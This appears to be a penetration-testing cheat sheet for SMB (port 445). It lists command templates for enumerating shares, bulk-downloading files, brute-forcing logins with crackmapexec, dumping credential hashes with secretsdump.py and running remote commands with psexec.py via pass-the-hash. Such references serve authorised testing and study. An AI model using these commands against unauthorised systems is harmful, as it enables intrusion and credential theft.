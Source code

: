 # 445 - SMB

### Listing shares

```text
smbclient -N -L <target>
smbclient -U <user> -L <target>
smbmap -H <target> -u <user> -p <pass/hash>
crackmapexec smb --shares <target> -u <user> -p <pass>
```

### Connecting to share

```text
smbclient [-P <user>] //<target>/<share>
mount -t cifs [-o 'username=<user>,password=<pass>'] //<target>/<remote> <local>
```

### SMB commands

```text
SMB> allinfo
SMB> more <file>:<stream>
SMB> recurse on
SMB> prompt off
SMB> mget *
```

### Bruteforcing

```text
crackmapexec smb <target> -u <user/list> -p <pass/list> --continue-on-success
```

### secretsdump

```text
secretsdump.py <domain>/<user>@<target>
```

### checking for psexec.py

```text
crackmapexec smb <target> -u <user> (-H <hash> || -p <pass>)
```

### psexec.py

```text
psexec.py <adminuser>@<target> [-hashes <hash:hash>]
```

### Default shares

```text
ADMIN$
C$
IPC$
```

